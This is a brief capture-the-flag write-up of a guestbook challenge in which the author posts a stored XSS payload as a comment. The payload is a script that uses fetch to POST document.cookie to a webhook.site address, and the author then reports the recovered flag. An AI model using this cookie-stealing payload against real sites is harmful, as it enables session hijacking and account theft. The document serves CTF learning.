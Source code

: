# 1 - My GuestBook 

Let's go:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/1.png)

First I saw that page:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/2.png)

So I did write that js xss cookie stealer:

```
</u>
<script>
	fetch('https://webhook.site/591c#$@#-#$@#-#$%^-#$%^-!@#$366d@#$@/cockie',
  {method:'POST', mode:'no-cors', body: document.cookie});
</script>
```

and I did post it in the comments section... then waited for an full hour 

and did get a flag:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/3.png)

It was just url encoded so I did report that flag to the bot:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/4.png)
